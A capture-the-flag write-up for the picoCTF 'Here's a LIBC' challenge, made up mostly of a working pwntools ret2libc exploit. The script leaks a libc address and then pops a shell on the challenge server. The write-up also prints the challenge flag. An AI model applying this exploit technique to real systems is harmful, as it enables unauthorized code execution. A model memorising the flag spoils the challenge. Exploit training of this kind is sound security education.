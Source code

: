 # Here's a LIBC

## Category - Binary Exploitation
## Author - MADSTACKS

### Description: 
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774

### Solution:
Very standard ret2libc challenge with vuln being the vulnerable ELF executable and libc.so.6 being the version of libc used that is needed to exploit the challenge. You can learn 
about ret2libc challenges in a lot of places including LiveOverflow's videos on the topic, pwn.college, and here: https://research.801labs.org/stack-exploitation/

Final exploit script:
```python
from pwn import *
p = remote('mercury.picoctf.net', 1774)
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

#create the first rop chain to leak libc address
JUNK = ("A"*136).encode()
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

p.sendlineafter("sErVeR!", rop)

p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)

#found by using one_gadget /bin/sh
#0x4f365
#0x4f3c2
#0x10a45c

rop2 += p64(leak)

p.sendlineafter("sErVeR!", rop2)

p.interactive()
```

### Flag:
```
picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}
```
